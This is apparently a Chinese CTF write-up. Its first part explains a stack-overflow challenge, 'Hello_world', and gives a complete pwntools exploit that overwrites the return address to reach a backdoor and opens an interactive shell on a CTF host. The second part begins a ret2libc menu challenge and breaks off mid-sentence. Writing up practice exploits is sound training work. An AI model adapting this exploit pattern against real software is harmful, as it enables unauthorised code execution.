 # Hello_world
签到题，利用栈溢出漏洞劫持返回函数至backdoors即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28485
if local:
	p = process('./Hello_world')
	pwnlib.gdb.attach(p, 'b func1')
else:
	p = remote(ip, port)
	# p = websocket()

payload = b'a' * (0x20 + 8) + b'\xc5'
p.send(payload)
p.interactive()
```
# ret2libc1
菜单题，可以找到栈溢出漏洞在shop函数里
![[Pasted image 20250302221923.png]]
main函数中可以找到当输入7时会执行see_it函数，可以刷钱，刷了钱后便可以